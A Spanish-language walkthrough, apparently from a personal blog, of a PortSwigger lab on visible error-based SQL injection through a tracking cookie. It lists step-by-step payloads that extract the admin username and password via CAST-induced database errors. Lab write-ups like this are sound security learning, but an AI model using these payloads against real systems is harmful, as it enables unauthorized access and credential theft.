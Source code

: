 ```yaml
---
title: "18 Visible error-based SQL injection"
collection: publications
category: portswigger
permalink: /publications/18_Visible error-based SQL injection
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. No se devuelven los resultados de la consulta SQL.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Visible error-based SQL injection'
---
```


![logo]({{site.url}}/images/SQLi/sqli-18/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-18/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, encuentra la forma de filtrar la contraseña del usuario administrador y, a continuación, accede a su cuenta.

## Buscamos el vector de ataque

Realizamos busqueda de URL's que realicen consulta a la BD para ver si es una posible realizar un ataque de SQLi.

![Vector]({{site.url}}/images/SQLi/sqli-18/vector.png)

## Probamos que el TrackingId es vulnerable

```sql
'--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-18/vulnerable.png)

## Obtenemos cantidad de columnas

```sql
' ORDER BY 1--
```

![Columnas]({{site.url}}/images/SQLi/sqli-18/columnas.png)

## Miramos que sea de tipo String

```sql
' UNION SELECT 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-18/string.png)

## Obtener el primer usuario de la tabla users

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--
```

![Usuario]({{site.url}}/images/SQLi/sqli-18/primer usuario.png)

## Obtener el password del primer usuario

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) as int)--
```

![Password]({{site.url}}/images/SQLi/sqli-18/password.png)

## Login

![Login]({{site.url}}/images/SQLi/sqli-18/login.png)

## Resuelto

![Resuelto]({{site.url}}/images/SQLi/sqli-18/resuelto.png)
